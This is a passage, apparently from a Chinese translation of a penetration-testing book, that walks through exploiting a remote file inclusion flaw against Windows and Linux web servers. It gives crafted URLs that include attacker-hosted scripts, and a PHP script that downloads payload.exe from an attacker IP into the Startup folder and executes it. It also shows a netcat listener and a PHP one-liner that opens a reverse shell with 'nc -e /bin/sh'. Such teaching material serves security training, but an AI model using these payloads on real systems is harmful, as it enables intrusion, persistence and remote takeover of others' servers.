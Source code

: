 现在，我们所要做的就是从我们暴露的服务器引用脚本，就像这样：

[`www.example.website.com/?target=70.106.216.176:8000/server/account.txt`](http://www.example.website.com/?target=70.106.216.176:8000/server/account.txt)

如果可能的话，这将在服务器上创建一个新的恶意本地管理员，我们可以使用它来访问服务器。如果系统的 RDP 暴露在互联网上，我们的工作就完成了，我们只需使用新帐户直接登录系统。如果不是这种情况，那么我们需要找到另一种方法来利用系统；为此，我们将使用实际的有效负载。

创建一个如第五章*使用 Python 利用服务*中所述的有效负载，并将其移动到用于存储引用文件的目录中。

### 提示

用于此攻击的最佳 LPORT 是端口 80、端口 443 和端口 53。只需确保这些服务没有冲突即可。

创建一个新的 PHP 脚本，可以直接下载文件并执行它，名为`payload_execute.txt`：

```py
<pre style="text-align:left;">
<?php
    file_put_contents("C:\Documents and Settings\All Users\Start Menu\Programs\Startup\payload.exe", fopen("http://70.106.216.176:8000/server/payload.exe", 'r'));
    echo shell_exec('C:\Documents and Settings\All Users\Start Menu\Programs\Startup\payload.exe'):
?>
</pre>
```

现在，设置监听器（如第五章*使用 Python 利用服务*中详细说明的）以侦听定义的本地端口。最后，将新脚本加载到 RFI 请求中，观察您的新潜在 shell 出现：

[`www.example.website.com/?target=70.106.216.176:8000/server/payload_execute.txt`](http://www.example.website.com/?target=70.106.216.176:8000/server/payload_execute.txt)

这些是您可以利用 Windows 主机的样本，但如果是 Linux 系统呢？根据主机的权限结构，可能更难获得 shell。也就是说，您可以潜在地查看本地主机，以识别可能包含明文密码的本地文件和存储库。

Linux 和 Unix 主机通常安装了`netcat`和几种脚本语言，这为攻击者提供了好处。每种语言都可以提供一个命令 shell 返回到攻击者的监听系统。例如，使用以下命令在面向互联网的主机上设置`netcat`监听器：

```py
nc -l 443

```

然后，创建一个存储在文本文件中的 PHP 脚本，例如`netcat.txt`：

```py
<pre style="text-align:left;">
<?php
    echo shell_exec('nc -e /bin/sh 70.106.216.176 443'):
?>
</pre>
```

接下来，通过引用先前显示的 URL 中的脚本来运行脚本：

[`www.example.website.com/?target=70.106.216.176:8000/server/netcat.txt`](http://www.example.website.com/?target=70.106.216.176:8000/server/netcat.txt)

### 注意
